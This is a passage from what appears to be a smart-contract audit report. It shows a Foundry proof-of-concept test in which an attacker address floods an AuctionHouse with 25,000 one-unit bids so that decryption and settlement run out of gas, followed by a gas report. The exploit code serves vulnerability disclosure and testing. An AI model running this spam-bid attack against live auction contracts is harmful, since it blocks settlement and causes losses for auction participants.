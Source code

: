 ```solidity
    AuctionHouse.BidParams memory bidParams;
    bidParams.lotId = 0;
    bidParams.amount = 5_000e18;
    bidParams.auctionData = abi.encode(5_000e18, auctionKey);

    // - Submit normal bids
    auctionHouse.bid(bidParams, "");

    // - Spam bids
    address ATTACKER = makeAddr('Attacker');
    uint64 SPAM_BIDS_NUMBER = 25_000;
    vm.startPrank(ATTACKER);
    quoteToken.mint(SPAM_BIDS_NUMBER);
    quoteToken.approve(address(auctionHouse), SPAM_BIDS_NUMBER);
	
    bidParams.amount = 1;
    bidParams.auctionData = abi.encode(1, auctionKey);

    for (uint256 i = 0; i < SPAM_BIDS_NUMBER; i++) { auctionHouse.bid(bidParams, ""); }

    // Warp till after bid conclusion
    vm.warp(block.timestamp + 6 days);

    // Submit private key and decrypt bids
    empaModule.submitPrivateKey(0, _AUCTION_PRIVATE_KEY, 0);

    empaModule.decryptAndSortBids(0, SPAM_BIDS_NUMBER + 1);

    // Settle
    auctionHouse.settle(0);
  }
}

contract MockERC20 is ERC20 {
    constructor(
        string memory _name,
        string memory _symbol,
        uint8 _decimals
    ) ERC20(_name, _symbol, _decimals) {}

    function mint(uint256 amount) public {
      _mint(msg.sender, amount);
    }
}
```

If we run the POC above with `forge test --match-test test_spam_auction_so_it_cannot_be_settled --gas-report` we can see from the gas report table for **AuctionHouse.sol**

```sh
| src/AuctionHouse.sol:AuctionHouse contract |                 |          |          |          |         |
|--------------------------------------------|-----------------|----------|----------|----------|---------|
| Deployment Cost                            | Deployment Size |          |          |          |         |
| 5253283                                    | 24143           |          |          |          |         |
| Function Name                              | min             | avg      | median   | max      | # calls |
| auction                                    | 333780          | 333780   | 333780   | 333780   | 1       |
| bid                                        | 201416          | 205679   | 201416   | 243234   | 25001   |
```